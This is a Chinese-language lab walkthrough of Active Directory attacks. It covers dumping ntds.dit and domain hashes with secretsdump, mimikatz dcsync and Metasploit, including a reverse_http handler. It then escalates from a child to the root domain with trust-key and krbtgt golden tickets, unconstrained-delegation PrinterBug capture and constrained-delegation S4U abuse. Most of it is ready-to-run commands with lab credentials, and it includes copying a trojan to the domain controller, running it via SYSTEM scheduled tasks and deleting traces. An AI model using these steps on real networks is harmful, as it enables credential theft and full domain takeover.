可以通过创建一个 IFM 的方式获取 ntds.dit，在使用 ntdsutil 创建媒体安装集（IFM）时，需要进行生
成快照、加载、将 ntds.dit 和计算机的 SAM 文件复制到目标文件夹中等操作，这些操作也可以通过
PowerShell 或 VMI 远程执行。
```

```
第一步:此时 ntds.dit 将被保存在 C:\test\Active Directory 下，SYSTEN 和 SECURITY 两个文件将被保存在
C:\test\registry 文件夹下
ntdsutil "ac i ntds" "ifm" "create full c:/test" q q
```

	

	

为防止溯源，删除即可。

```
rmdir /s /q C:\test
```

	

首先把该工具放置域控。

	

在域控输入这条命令，会在当前目录导出ntds.dit文件。并可以读取哈希值。

```
secretsdump.exe hack.com/administrator:Hsw123456@192.168.15.140 -outputfile output_ntds
```

		

### 离线读取ntds.dit文件

```
离线一般需要两步：
1、将远端域控的ntds.dit下载到本地，
2、然后利用再在本地进行。
注意：因为 system.hive 里存放着 ntds.dit 的秘钥，所以需要转储 system.hive ，不然没法查看
ntds.dit 里内容
```

```
首先先保存system.hive密钥，该命令用于将 Windows 注册表中指定部分保存到文件的命令
reg save hklm\system c:\windows\temp\system.hive
```

	

	

```
下面介绍几种方式离线读取ntds.dit文件
第一种是impacket工具中的secretsdump工具
```

```
将secretdump工具放置域控机，并且将 ntds.dit.export 和 SYSTEM 文件放入到 和secretsdump.exe 同级目录下，然后运行读取，即可获得所有域用户的密码哈希。
secretsdump.exe -system system.hive -ntds ntds.dit LOCAL
```

	

```
第二种工具NTDSDumpEx.exe 可以进行导出哈希值的操作
NTDSDumpEx -d ntds.dit -s system.hive -o 1.txt
```

	

	

```
第三种工具DSInternals是powershell脚本，可以离线读取ntds文件,但是域控的powershell版本过低，没有包含这个Install-Module命令，所以无法复现。
```

	

### 在线读取ntds.dit文件

```
在线的方式就是直接读取不需要在导出ntds文件,在域环境中，不要直接在线获取hash，特别是域环境
比较大的时候，在线获取hash等待时时间较长，工具占用资源太多，容易造成域控服务器崩溃
```

```
使用mimikatz，可以读取所有用户的hash
mimikatz lsadump::dcsync /domain:hack.com /all /csv
```

	

```
也可以单独读取单个用户的hash。
mimikatz lsadump::dcsync /domain:hack.com /user:administrator
```

	

```
Quarks PwDump工具
首先上传工具到目标机器，使用命令先导出ntds文件，然后读取，这个支持离线读取，在线读取尝试了一下会说ntds.dit文件被锁定不能读取。
```

```
离线读取
shell QuarksPwDump.exe --dump-hash-domain --ntds-file ntds.dit
```

	

```
impacket使用secretsdump直接读取
格式:secretsdump.exe 域名/administrator:密码@IP -outputfile output_ntds
```

```
在线读取。
shell secretsdump.exe hack.com/administrator:Hsw123456@192.168.15.140 -outputfile 1.txt
```

	

```
Invoke-DCSyncs是powershell脚本可以在线读取内存中的用户hash，这种ps脚本可以采用无文件落地，也可以导入cs,也可以上传靶机执行。
```

	

### MSF读取ntds.dit文件

```
1、使用导出模块进行导出
use auxiliary/admin/smb/psexec_ntdsgrab
```

	

```
设置属性，设置要读取ntds文件的主机。
set RHOSTS 192.168.15.140
set SMBDomain hack.com
set smbuser administrator                         
set smbpass "Hsw123456"
run
```

	

```
2、运行之后 ntds和system文件会被保存到/root/.msf4/loot下
```

	

顺便改名字。于是获得这两个文件就可以开始读了。

	

于是放到windows使用工具即可读取信息。

	

```
第二种方式是把cs注入到msf会话中。
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 192.168.15.141
set lport 8888
exploit
```

	

cs新建一个外部监听器，端口设置和msf的监听端口一致。

		

将cs的会话转移到msf,并选择创建好的触发器。

	

	

于是msf获得cs会话，使用hashdump导出所有域用户的哈希信息。

	

```
也可以使用msf的payload获取哈希值。
use post/windows/gather/smart_hashdump
```

	

	

### 搭建和查看域信任关系

首先基于原先已有的hack.com主机上，在新建多一个域控作为abc.hack.com,只需要注意几个细节，首先子域控的dns服务器要填根域控的ip,然后加入子域控下的主机的dns ip填子域控的ip即可。

```
获取域信息 
在域中，Enterprise Admins组（出现在林中的根域中）的成员具有对目录林中所有域的完全控制权限。在默认情况下，该组包含林中所有域控制器上具有Administrators权限的成员。意思就是说只有根域才具有Enterpirse Admins组，并且这个组的成员，是整个林域的域管理员。
```

这里假设已经控制了子域控机(192.168.15.155)

	

```
使用lg工具获取域的相关信息,查看域信任关系
nltest /domain_trusts
```

	

```
获取当前域中的用户组
LG.exe abc\.
```

	

```
也可以查看根域的用户组。
```

	

```
获取远程机器的本地用户组，具体格式:LG.exe \\计算机名 -lu
LG.exe \\dc2 -lu
```

	

```
获取远程系统中的用户SID,可以查看每个用户组的用户sid
LG.exe \\dc2 -lu -sidsout
```

	

### 利用域信任密钥获取目标域

前提:已经控制子域控(192.168.15.155),和子域控的一台域主机(192.168.15.150)，目标是打下根域控(192.168.15.140)

使用子域控的域主机无法访问域控的目录。

	

```
从子域控查询域信任信息，查询其中子域的sid和根域的sid，以及根域的信任密钥。
注意:子域和根域由于相互信赖，所以信任密钥是一样的。
mimikatz lsadump::trust /patch
```

	

```
在普通域内用户(192.168.15.150)生成黄金票据，其实这个时候就可以用这个票据去访问任意域主机的服务了，但是下面顺便复习一下白银票据的使用。
mimikatz kerberos::golden /domain:abc.hack.com /sid:S-1-5-21-3227177631-3380708328-959019905 /sids:S-1-5-21-944010055-1767279935-531308103-519 /rc4:fbf754c0f40cd7c3576d68fa5a5c11e2 /user:administrator /service:krbtgt /target:hack.com /ticket:subdc_administrator.kirbi
```

	

生成成功。

	

	

```
上传asktgs.exe和kirbikator.exe工具，asktgs.exe伪造票据，kirbikator.exe注入票据
首先创建CIFS服务的票据进行复制文件的操作
shell asktgs.exe subdc_administrator.kirbi CIFS/DC.hack.com
```

	

```
将CIFS服务的票据注入内存
shell kirbikator.exe lsa CIFS.DC.hack.com.kirbi
查看票据是否注入成功。
shell klist
```

	

于是普通域内用户即可访问根域的目录。

	

```
但是仅仅只是访问目录，还不能把木马文件复制到根域目录下，还得伪造host服务的票据。
伪造host服务票据
shell asktgs.exe subdc_administrator.kirbi host/DC.hack.com
```

	

```
将host服务票据注入内存。
shell kirbikator.exe lsa host.DC.hack.com.kirbi
复制木马
shell copy shell.exe \\dc.hack.com\c$
```

	

	

```
创建计划任务并执行。
shell schtasks /create /s dc.hack.com /tn test /sc onstart /tr c:\shell.exe /ru system /f
shell schtasks /run /s dc.hack.com /i /tn "test"
```

	

根域上线。

	

### 利用krbtgt哈希值获取目标域

前提:已经控制子域控(192.168.15.155),和子域控的一台域主机(192.168.15.150)，目标是打下根域控(192.168.15.140)

```
在子域控获取Krbtgt的NTLM哈希值。
mimikatz lsadump::lsa /patch /user:krbtgt
```

	

```
查找子域控和根域控的sid
mimikatz lsadump::trust /patch
```

	

构造格式如下

		

```
子域控的一台域主机构造并注入黄金票据
Kerberos::golden /user:administrator /domain:abc.hack.com /sid:S-1-5-21-3227177631-3380708328-959019905 /sids:S-1-5-21-944010055-1767279935-531308103-519 /krbtgt:ac73516565e9a4ed8b383a52dc69b27f /ptt
```

	

此时可以访问根域的目录

	

```
复制木马，并创建计划任务，然后执行。
shell copy shell.exe \\dc.hack.com\c$
shell schtasks /create /s dc.hack.com /tn test /sc onstart /tr c:\shell.exe /ru system /f
shell schtasks /run /s dc.hack.com /i /tn "test"
```

	

根域控上线

	

### 非约束委派攻击

```
第一种方式:利用非约束委派域控主动访问控制域,即等待域管主动访问该主机。
实验前提:比如拿下了子域的一台域主机(192.168.15.150)，接下来要拿下子域控(192.168.15.155)。
```

首先子域中的域主机先设置好非约束性委派(即可以使用该计算机来委派访问任何资源)

	

```
1、在远控机使用Adfind查询域内非约束委派机器账号，发现只有DC2和远控机是非约束委派。
shell AdFind.exe -b "DC=abc,DC=hack,DC=com" -f "(&(samAccountType=805306369) (userAccountControl:1.2.840.113556.1.4.803:=524288))" cn distinguishedName
```

		

```
查询具有委派的服务账号,但是由于没创建服务账号，所以没有查询到。
shell AdFind.exe -b "DC=abc,DC=hack,DC=com" -f "(&(samAccountType=805306368) (userAccountControl:1.2.840.113556.1.4.803:=524288))" -dn
```

	

```
2、我们先去访问子域控，是不能访问的
shell dir \\dc2.abc.hack.com\c$
```

		

```
3、这个时候如果域管访问了域内远控机器我们的内存中就会有域管的TGT，就可以访问任意机器了，在与域控上执行访问PC-WEB(在域控上执行)
模拟域控192.168.15.155去访问。
net use \\server2008-02.abc.HACK.COM /user:abc\administrator Hsw123456
```

	

```
执行下面命令可能出现权限不够问题，那么要想办法提权。具体参考内网提权章节。也可以先换成本地管理员执行。
4、域内远控机导出内存中的票据，查找到域管理员的凭证。
mimikatz sekurlsa::tickets /export
```

	

```
5.进行票据传递就可以获取域控的权限了
mimikatz kerberos::ptt [0;18d4dd]-2-0-60a10000-Administrator@krbtgt-ABC.HACK.COM.kirbi
```

	

```
于是即可访问子域控的目录，然后老套路上传木马，设置计划任务执行即可上线。
shell dir \\dc2.abc.hack.com\c$
```

	

```
这个复现失败了。
第二种方式，利用非约束委派域控被动访问控制域控(即强制让域控访问委派机器，从而留下TGT票据)
由于2008机器不能复现，需要安装netframework
```

```
一般域管不会主动访问我们，我们可以利用 Windows 打印系统远程协议（MS-RPRN）中的一种旧的
但是默认启用的方法，在该方法中，域用户可以使用 MS-RPRN
RpcRemoteFindFirstPrinterChangeNotification(Ex) 方法强制任何运行了 Spooler 服务的计算
机以通过 Kerberos 或 NTLM 对攻击者选择的目标进行身份验证。非约束性委派主机结合 Spooler 打印
机服务漏洞，让域控机器 DC 强制访问已控的具有本地管理员权限的非约束性委派机器 OA ，从而拿到
域管理员的 TGT，进而接管域控。（2008机器可能复现不了，因为版本的问题）

进行实验之前一定要把所有的防火墙关闭！所有的防火墙关闭！所有的防火墙关闭！
```

```
1、首先利用Rubeus工具，在Win10上以本地管理员权限执行以下命令，每隔一秒监听来自子域控机器DC2的登录
信息。
shell Rubeus.exe monitor /interval:1 /filteruser:DC2$	
```

	

```
再利用SpoolSample强制域控打印机回连，需在域用户进程上执行，所以这里切换成了普通域用户帐号去执行，这样会使得DC域控强制与OA连接。
SpoolSample.exe DC OA
```

	

于是监听到票据

	

```
Rubeus导入票据
Rubeus.exe ptt /ticket:票据
```

	

```
导入票据后，即可获取域内用户的hash，然后可以使用黄金票据伪造或者域管的NTLM哈希进行哈希传递攻击。
lsadump::dcsync /all /csv
```

	

```
第三种方式，构造服务账户票据控制域控。
实验前提
1. 服务账户设置了非约束性委派
2. 已知服务账户的密码口令信息
```

```
创建一个账号
net user test123 Admin@123 /add /domain
把该账号注册为服务账号。并给该账号设置非约束委派
setspn -U -A priv/test test123
```

	

		

```
1.查看发现有一个服务账号。
AdFind.exe -b "DC=abc,DC=hack,DC=com" -f "(&(samAccountType=805306368) (userAccountControl:1.2.840.113556.1.4.803:=524288))" -dn
```

	

```
上传kekeo该工具到远控机2008-02上。
2、构造服务账户TGT的票据,使用服务账号test123请求一个TGT票据。
其中/ticket生成指定的票据名
kekeo.exe "tgt::ask /user:test123 /domain:abc.hack.com /password:Admin@123 /ticket:test123.kirbi" "exit"
```

	

```
3、利用刚才伪造的TGT票据，向域服务器申请CIFS服务票据,
kekeo.exe "Tgs::s4u /tgt:TGT_test123@ABC.HACK.COM_krbtgt~abc.hack.com@ABC.HACK.COM.kirbi /user:administrator@abc.hack.com /service:cifs/dc2.abc.hack.com" "exit"
```

	

```
使用mimikatz将该票据注入当前的会话中
mimikatz kerberos::ptt TGS_administrator@ABC.HACK.COM_test123@ABC.HACK.COM.kirbi
```

	

于是即可访问域控目录，但是这里访问失败了，复现失败。估计换成根域做实验会成功。

### 约束委派攻击

```
当这个用户不在域内，他在出差，不能使用kerberos去认证，只能使用其他协议认证web系统，那同样
WEB系统也需要访问文件服务的资源，这个时候如何认证呢？

Widnows Server 2003 之后微软引入了非约束委派。由于非约束委派的不安全性或者场景受限（配置了
非约束委派的机器在 LSASS 中缓存了用户的 TGT 票据可模拟用户去访问域中任意服务），微软于2007
年为 Kerberos 协议进行扩展引入S4U(service for user)协议，该协议分为两个子协议
1、S4u2self（Service for User to Self）
2、S4U2proxy（Service for User to Proxy）
这两个扩展都允许服务代表用户从KDC请求票证。约束委派限制了S4U2proxy协议的请求范围，使得配置了委派属性的服务只能模拟用户身份访问特定的其他服务

存在的问题
1、服务账号B可以代表A申请访问B的票据，那么可不可以代表域管申请域管访问B的票据呢？在这个过
程中，不需要域管参与，服务B自身就可以完成
2、服务账号B可以代表A申请访问C的票据，那么可不可以代表域管申请域管访问C的票据呢？在这个过
程中，不需要域管参与，服务B自身就可以完成

```

```
使用根域控下的主机2008-01(192.168.15.145)来攻击根域控机器(192.168.15.140)。
实验前提：我们已经控制了2008-01的电脑，发现该电脑配置了约束性的委派，并且可以读取到该电脑的机器用户的HASH值
```

先给2008-01设置约束性委派，只允许访问dc域控的cifs服务。

		

```
1、查询约束委派机器账户
AdFind.exe -b "DC=abc,DC=hack,DC=com" -f "(&(samAccountType=805306369)(msdsallowedtodelegateto=*))" msds-allowedtodelegateto
查询约束委派服务账户
AdFind.exe -b "DC=hack,DC=com" -f "(&(samAccountType=805306368)(msdsallowedtodelegateto=*))" cn distinguishedName msds-allowedtodelegateto
```

	

```
这个命令需要高权限，所以要提权到本地管理员，或者说system。
2、使用mimikatz获取机器账户NTLM Hash
mimikatz sekurlsa::logonpasswords
```

		

```
3、使用kekeo申请配置了约束委派机器账户SERVER2008-02$的TGT
kekeo.exe "tgt::ask /user:2008-01$ /NTLM:0ff058a22fa06d3adb76ff4c24b69f67 /domain:hack.com" "exit"
```

	

		

```
利用TGT通过伪造S4U请求以administrator身份访问PC-ZS的ST
kekeo.exe "tgs::s4u /tgt:TGT_2008-01$@HACK.COM_krbtgt~hack.com@HACK.COM.kirbi /user:Administrator@hack.com /service:cifs/dc.hack.com" "exit"
```

	

		

```
mimkatz注入
mimikatz kerberos::ptt TGS_Administrator@hack.com@HACK.COM_cifs~dc.hack.com@HACK.COM.kirbi
```

	

```
访问域控，但是由于只有cifs票据，也无法进一步copy文件和创建计划任务。
shell dir \\dc.hack.com\c$
```

	


